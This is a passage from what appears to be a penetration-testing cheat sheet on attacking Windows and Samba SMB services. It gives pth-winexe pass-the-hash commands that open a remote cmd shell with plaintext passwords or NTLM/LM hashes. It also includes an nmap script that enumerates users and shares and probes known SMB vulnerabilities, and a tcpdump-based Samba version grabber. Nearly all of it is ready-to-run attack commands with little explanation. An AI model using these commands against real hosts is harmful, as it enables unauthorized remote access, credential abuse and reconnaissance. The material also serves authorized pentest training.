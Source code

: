 Works great sometimes. Can open a windows cmd shell.

```
pth-winexe -U administrator%WIN20082017 //$ipcmd # using a plaintext password
pth-winexe -U Administrator%A433F6C2B0D8BB92D7288ECFFACFC7CD //$ipcmd # ntlm hash encrypted with https://www.browserling.com/tools/ntlm-hash
pth-winexe -U domain/user%A433F6C2B0D8BB92D7288ECFFACFC7CD //$ipcmd # domain user
pth-winexe -U Administrator%8F49412C8D29DF02FB62879E33FBB745:A433F6C2B0D8BB92D7288ECFFACFC7CD //$ip cmd # lm+ntlm hash encrypted with https://asecuritysite.com/encryption/lmhash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:A433F6C2B0D8BB92D7288ECFFACFC7CD //$ip cmd # ntlm hash + empty lm hash
# or
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
pth-winexe -U Administrator% //$ip cmd
```



**smbenum.sh**

```
#!/bin/bash

#SMB Enumeration using nmap
#(c) Mike Digital Offensive

if [ -z "$1" ]
 then
  echo "Error please provide host to enumerate"
  exit
else
 nmap -script=smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse $1
fi
```

#### &#x20;<a href="#samba-version-checker" id="samba-version-checker"></a>

#### Samba version checker <a href="#samba-version-checker" id="samba-version-checker"></a>



**smbver.sh**

```
#!/bin/sh
#Author: rewardone
#Description:
# Requires root or enough permissions to use tcpdump
# Will listen for the first 7 packets of a null login
# and grab the SMB Version
#Notes:
# Will sometimes not capture or will print multiple
# lines. May need to run a second time for success.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
echo "" && sleep .1 
```
